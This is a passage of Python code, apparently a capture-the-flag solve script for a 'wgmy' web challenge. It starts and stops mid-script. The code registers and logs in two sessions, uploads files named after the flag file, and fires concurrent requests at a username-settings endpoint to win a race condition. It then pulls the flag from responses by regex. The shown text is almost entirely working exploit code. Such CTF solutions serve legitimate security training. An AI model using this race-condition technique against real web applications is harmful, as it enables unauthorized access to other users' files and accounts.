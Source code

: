 ```python
        if res.status_code != 200 or "HACKER ALERT" in res.text or "hello" in res.text:
            continue

        if m := re.findall(r"(wgmy{.*?})", res.text):
            print(m[0])
            return True

        # in local, flag is flag{dummy}.
        elif len(res.text) != 0:
            print(res.text)
            return True


def upload_dummy_file(s, filename):
    # upload dummy file with flag_filename
    return s.post(
        f"{BASE_URL}/drive",
        files={"fileToUpload": (filename, io.StringIO())},
        data={"submit": 1},
    )


def register_user_if_not_exists():
    # if user has already registered, it's ignored.
    requests.post(
        f"{BASE_URL}/register",
        data={"username": USERNAME, "password": PASSWORD},
    )


def login_and_return_session():
    s = requests.Session()

    # if burp on, race condition is not working
    # s.proxies = {"http": "http://127.0.0.1:8080"}

    s.post(f"{BASE_URL}/login", data={"username": USERNAME, "password": PASSWORD})
    return s


def revert_username(sess):
    while True:
        res = settings(sess, USERNAME)
        if res.status_code == 200:
            break

        # for 503
        time.sleep(2)


def main():
    # user initialize
    register_user_if_not_exists()

    # if it uses the same session, race condition doesn't work
    sess = [login_and_return_session() for _ in range(2)]

    try:
        # Step 1: get the flag file name
        print("[+] Step 1 start")
        while True:
            with concurrent.futures.ThreadPoolExecutor(max_workers=2) as executor:
                executor.submit(loop_settings, sess[0])
```